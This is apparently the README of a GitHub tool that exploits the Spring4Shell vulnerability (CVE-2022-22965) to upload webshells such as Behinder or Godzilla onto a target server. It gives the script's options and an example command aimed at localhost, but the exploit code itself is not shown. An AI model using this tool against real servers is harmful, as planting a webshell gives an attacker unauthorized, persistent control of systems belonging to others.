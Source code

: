 # Spring_onekeyshell
Upload the webshell such as behinder or godzilla to target by CVE-2022-22965
## Based off the work of
https://github.com/reznok/Spring4Shell-POC

## Instructions
1. download spring_onekeyshell.py
2. run the script:
- `--url` target url
- `--ws` WebShell File [example.jsp]
- `--file` File to write to [no extension]
- `--dir` Directory to write to. Suggest using "webapps/[appname]" of target app
```
python spring_onekeyshell.py --url http://localhost:8080/helloworld --ws /tmp/webshell.jsp --file vuln --dir webapps/ROOT
```
